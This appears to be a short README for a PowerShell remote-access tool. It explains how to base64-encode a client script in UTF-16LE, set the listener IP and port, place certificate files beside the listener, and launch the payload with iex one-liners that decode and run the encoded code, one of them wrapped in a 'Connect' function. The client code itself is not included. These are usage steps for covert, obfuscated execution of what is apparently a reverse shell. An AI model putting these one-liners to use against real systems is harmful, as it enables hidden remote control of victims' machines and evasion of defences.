 Use Client.ps by encoding it with https://www.base64encode.org/ use UTF16-LE and CRLF(Windows) Make change in ip and port in code keep genrated cert files in same directory where listener is present.
To execute the encoded code use iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('Base64EncodedCode')))
To execute the encoded code use function Connect{param([Alias('e','EncodedCommand')][string]$Via);iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($Via)))};Connect -Via Base64Code
